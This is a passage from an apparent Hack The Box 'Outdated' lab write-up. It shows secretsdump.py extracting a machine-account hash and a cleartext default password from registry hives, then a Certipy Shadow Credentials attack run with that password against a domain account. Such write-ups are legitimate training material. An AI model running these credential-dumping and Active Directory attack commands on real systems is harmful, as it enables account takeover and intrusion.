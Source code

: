 ![image.png](/assets/Images/HTB_Outdated/image%2036.png)

Using Secretsdump and we get the password 

```bash
secretsdump.py -sam SAM* -security SECURITY* -system SYSTEM* local
```

![image.png](/assets/Images/HTB_Outdated/image%2037.png)

```bash
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d805ad109346699956d56bf7ff7aad7a
[*] DefaultPassword 
(Unknown User):5myBPLPDKT3Bfq
```

Using Certipy and to automate the whole process of Shadow Credentials Attack

If you get NT hash : None just sync the time

```bash
certipy shadow auto -u btables@outdated.htb -p '5myBPLPDKT3Bfq' -account sflowers
```

![image.png](/assets/Images/HTB_Outdated/image%2038.png)
